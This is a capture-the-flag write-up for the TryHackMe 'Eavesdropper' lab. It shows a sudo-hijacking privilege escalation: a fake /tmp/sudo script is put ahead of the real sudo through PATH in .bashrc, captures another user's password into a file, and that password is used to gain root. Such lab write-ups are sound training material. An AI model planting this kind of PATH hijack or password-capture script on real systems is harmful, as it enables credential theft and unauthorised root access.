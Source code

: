 # TryHackMe - Eavesdropper
![Room Logo](./img/logo.png)  
Room Link => [Eavesdropper](https://tryhackme.com/room/eavesdropper)  
#### There are two ways to solve this machine.
- Intended Way  
- Unintended Way  

#### You can follow the steps below to solve it using the intended way or you can check out another writeup by `xyro` who found an unintended way to solve this machine which is something very few people would have found and his approach to solve this machine is also unique. Link to his write is here => [Xyro's Writeup](http://xyro.codes/THM/eavesdropper/writeup.html)

<p>
    <strong>Intended way :</strong>
    <ul>
        <li>
            <strong>Step 1 :</strong><br>
            LogIn to the machine using <code>idrsa.id-rsa</code> provided in task 1 with username <code>frank</code>.
        </li>
        <li>
            <strong>Step 2 :</strong><br>
            Transfer <code>pspy</code> onto the target machine and run it for a while.<br>
            There are a few things we notice.<br>
            User frank is logging in via ssh and then running the command <code>sudo cat /etc/shadow</code><br>
            We can perform <code>sudo hijacking</code> on this.
        </li>
        <li>
            <strong>Step 3 :</strong><br>
            Time for <a href="https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-hijacking">sudo
                hijacking</a>.
            While creating our sudo executable, we have to be a little bit creative. Trying to get a reverse shell won't
            be useful. If u hijack sudo so that it spawns a reverse shell instead, the reverse shell u get back would be of
            the frank user because the sudo elevation hasn't happened yet. Instead we can capture the password entered by
            frank using a little bit of shell scripting. (Thanks you xyro for these words 😁).<br>
            Follow these steps to capture the password using our sudo executable.
            <ol>
                <li>
                    <code>touch /tmp/sudo</code> creating our own sudo executable.
                </li>
                <li>content of sudo file <br>  
```   
        #!/bin/bash  
        read -s pass # after executes the command, this will read the password entered by frank and store it in the pass variable  
        echo $pass > /home/frank/pass.txt # echoing the password from pass variable to pass.txt so that we can read it once catured.    
```
                </li>
                <li>
                    <code>chmod +x /tmp/sudo</code>
                </li>
                <li>
                    Modify you <code>$PATH</code> variable using <code>.bashrc</code> <br>
                    <img src="./img/bashrc.png" alt="bashrc"> <br>
                    Save the changes and wait for a few seconds after which you will see a pass.txt which has the password
                    that can be used to switch to root.
                </li>
            </ol>
        </li>
        <li>
            <strong>Step 4 :</strong><br>
            Copy the password from pass.txt and do <code>/usr/bin/sudo su</code> and get the root flag.
        </li>
    </ul>
    <h1>
        Solved 😁
    </h1>
    <p>
        Once you are done with this. <br> Make sure to ckeck out <a href="http://xyro.codes/THM/eavesdropper/writeup.html">xyro's writeup</a><br>
        His method is super awesome 👍🏻
    </p>

</p>